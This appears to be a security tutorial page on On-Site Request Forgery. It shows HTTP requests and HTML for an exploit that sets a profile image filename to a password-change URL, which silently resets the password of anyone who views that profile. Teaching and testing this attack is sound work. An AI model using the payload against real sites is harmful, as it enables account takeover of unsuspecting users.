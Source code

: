 # On-Site Request Forgery (OSRF)

## Introduction
On-Site Request Forgery (OSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. The difference between CSRF is a vulnerability where an attacker initiates requests from domain under their control to perform actions on behalf of victim. However, in OSRF, requests originate from vulnerable application itself and we control where our requests go.

## Where to find
You can detect On-Site Request Forgery (OSRF) everywhere but there are 2 things that need to be looked up.
- Finding reflected input in `src` attribute. For example:

    ```html
    <img src="OUR_INPUT_HERE">
    <video width="400" height="200" controls src="OUR_INPUT_HERE">
    <audio src="OUR_INPUT_HERE">
    <iframe src="OUR_INPUT_HERE">
    ```
- There is a sensitive endpoint that using the GET method
  
    ```
    GET /settings.php?remove_account=1
    Host: example.com
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
    ...
    ```

## How to exploit
Imagine there is functionality in the website where the user can change their password. Here is the request

```
GET /change_password.php?new_password=Testing123
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
...
```

And then there is another functionality where we can control the value inside the `src` attribute, for example we can change our photo profile

```
POST /settings.php
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
...

---------------------------829348923824
Content-Disposition: form-data; name="filename"

testingimage.jpg

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="testingimage.jpg"
Content-Type: image/gif

IMAGE_CONTENT
...
```
And if we check our public profile page, our input is reflected in the `src` attribute

```html
<div id="profile">
  <p id="fullname">daffainfo</p>
  <p id="address">Indonesia</p>
  <img src="uploads/testingimage.jpg">
</div>
```

To exploit the website using this vulnerability, we need to change the filename from `testingimage.jpg` to `change_password.php?new_password=Testing123`. So, the result is

```html
<div id="profile">
  <p id="fullname">daffainfo</p>
  <p id="address">Indonesia</p>
  <img src="../change_password.php?new_password=Testing123">
</div>
```

If another user visits our profile page, their password will automatically be changed to `Testing123`


## References:
* [Portswigger](https://portswigger.net/blog/on-site-request-forgery)
* [CM2](https://blog.cm2.pw/articles/on-site-request-forgery/)